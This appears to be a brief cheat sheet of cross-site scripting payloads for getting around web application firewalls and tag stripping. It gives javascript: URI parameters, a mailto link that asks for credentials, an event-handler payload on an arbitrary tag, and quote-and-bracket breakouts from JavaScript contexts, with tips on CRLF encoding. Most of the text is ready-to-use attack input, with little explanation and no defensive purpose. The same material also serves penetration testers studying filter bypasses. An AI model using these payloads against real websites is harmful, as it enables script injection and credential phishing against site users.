 WAF Got You Down or Certain Tags Stripped?
==============
/?SomeParam=https://TheDomainYouAreOne&TheirParam=javascript://prompt(1)
/?SomeParam=https://TheDomainYouAreOne&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials
/?SomeParam=https://TheDomainYouAreOne&TheirParam=https://www.google.com

Did you break the tag and <script>, <iframe>, <img>, <a> etc are all blocked?
==============
Did they block onerror onload onclick? Try something like this:
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//
';prompt(1);//
What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
"};prompt(1);//
Don't forget %0D%0A if you need a new line
